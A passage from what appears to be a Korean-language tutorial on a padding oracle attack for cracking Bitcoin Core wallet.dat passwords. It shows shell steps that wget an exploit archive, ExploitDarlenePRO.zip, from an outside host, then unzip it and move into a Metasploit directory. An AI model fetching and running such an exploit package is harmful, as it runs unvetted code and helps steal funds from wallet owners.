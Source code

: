 

<pre class="wp-block-code"><code>cd modules/

ls

cd exploits/

!wget https://darlene.pro/repository/fe9b4545d58e43c1704b0135383e5f124f36e40cb54d29112d8ae7babadae791/ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-97-1024x455.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격" class="wp-image-4197"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>ExploitDarlenePRO.zip</code>유틸리티를 사용하여&nbsp;콘텐츠의 압축을 풉니다.<code>unzip</code></p>



<pre class="wp-block-code"><code>!unzip ExploitDarlenePRO.zip</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-98-1024x462.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격" class="wp-image-4199"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>카탈로그를 살펴보겠습니다.<code>/ExploitDarlenePRO/</code></p>



<pre class="wp-block-code"><code>ls

cd ExploitDarlenePRO/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-4.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>익스플로잇을 실행하려면 다음으로 돌아가자.<code><strong>Metasploit Framework</strong></code></p>



<pre class="wp-block-code"><code>cd /

cd content/metasploit-framework/

ls</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-101-1024x477.png" alt="인기 있는 비트코인 ​​코어 지갑에 대한 Wallet.dat 비밀번호 해독에 대한 패딩 오라클 공격" class="wp-image-4205"/></figure>
